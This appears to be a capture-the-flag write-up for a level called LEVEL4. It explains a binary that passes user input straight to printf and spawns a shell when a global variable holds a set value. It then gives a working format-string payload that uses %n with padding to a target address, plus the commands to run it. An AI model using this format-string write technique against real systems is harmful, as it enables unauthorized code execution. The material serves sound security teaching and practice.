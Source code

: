 # LEVEL4

## EXPLANATIONS

### BINARY BEHAVIOR

- 3 Functions : main, p and n
- main call n()
- n()
  - read 512 char on stdin with fgets and put them in buf
  - call p(buf)
    - p call printf with buf (format string)
  - then cmp the variable \<m\> 0x8049810 and 16930116
    - if succeed the programm call system("/bin/sh")

### EXPLOIT STRATEGY

- We are going one again use the format string exploit of printf.
  - => To do it we are going to write the value 16930116 in m with the identifier %n.
- The string that we pass threw the stdin will be :
  - 0x08049810 ( the address of m)
  - %16930112x (padding to reach the value)
  - %12\$n (write the value into the address)

### RUN COMMAND

```
python -c "print('\x08\x04\x98\x10'[::-1] + '%16930112x' + '%12\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | /home/user/level4/level4
```
